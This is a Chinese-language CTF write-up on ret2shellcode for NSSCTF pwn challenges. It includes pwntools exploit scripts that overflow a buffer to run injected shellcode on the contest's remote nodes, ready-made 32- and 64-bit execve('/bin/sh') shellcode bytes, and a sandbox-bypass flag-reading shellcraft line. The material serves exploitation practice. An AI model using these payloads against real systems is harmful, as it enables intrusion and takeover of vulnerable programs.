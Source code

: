 ## ret2shellcode

### 1. 知识点：写入shellcode后执行

题目：[[HNCTF 2022 Week1\]ret2shellcode | NSSCTF](https://www.nssctf.cn/problem/2934)

1. 各种保护的说明：

   ![image-20240531115932464](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311159529.png)

1. 进入到程序中，没有发现后门函数，且程序开启了保护，堆栈不可执行：

   ![image-20240531115738496](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311157536.png)

   ![image-20240531115715835](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311157881.png)

2. 程序中存在一个mprotect函数，可以用来修改内存页面的权限，其更改了stdout所在内存页面的权限，变为可读、可写、可执行：

   ![image-20240531120045841](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311200905.png)

3. 可以利用写、执行权限，在相应页面 **写入shellcode代码** ，然后 **挟持IP** 跳转到该页面 **执行写入的shellcode代码** ：

   * shellcode代码，即(类似于 **call system("bin/sh/")** )，可由攻击生成 **asm(shellcraft.sh())**，后面计算栈溢出的偏移（用来填充shellcode溢出到返回值），和写入shellcode代码处的地址即可构造出payload：

   * EXP，在64位下context调试信息中arch要使用 **'amd64'** ，而在 **32位** 下应该使用 **'i386'**，：两种架构下的 **shellcode代码** 时不同的 

     ![image-20240531121029708](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405311210752.png)

     ``````python
     #!/usr/bin/env python
     from pwn import *
     context(os='linux', arch='amd64', log_level='debug')
     sh = remote('node5.anna.nssctf.cn',23539)
     shellcode = asm(shellcraft.sh())
     print(shellcode)
     buf2_addr = 0x4040A0
     #.ljust(0x108, b'A')用来填充sellcode，便于后面溢出到返回值
     sh.sendline(shellcode.ljust(0x108, b'A') + p64(buf2_addr))
     sh.sendline(b'cat flag')
     sh.interactive()
     
     ``````




### 2. 读入shellcode的空间不足

**注意** ：程序可能会再读入shellcode时设置较小的范围，导致shellcraft生成的44个字节不能全部写入，这是需要较短的字节吗

1. **32位shellcode** 短字节(21字节)：\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
2. **64位的shellcode** 短字节(23字节)：\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

3. **过沙盒的shellcode** ：

   ```python
   asm(shellcraft.open("./flag") + shellcraft.read(3, flag_addr, 0x30) + shellcraft.write(1, flag_addr, 0x30))
   ```

   

4. ida中可见读入的数据时有长度限制的，只能读入37个字节：

   ![image-20240702144850822](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407021448879.png)

5. 所以要使用短字节，EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   # p = process("./pwn")
   p = remote("node4.anna.nssctf.cn",28055)   
   elf = ELF("./pwn")
   
   p.recvuntil(b"Please.")
   shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
   p.sendline(shellcode)
   
   p.recvuntil(b"Let's start!")
   payload = b'a'*(0xa+8)+p64(0x6010A0)
   p.sendline(payload)
   p.sendline(b'cat flag')
   # 与远程交互
   p.interactive()
   
   ```

   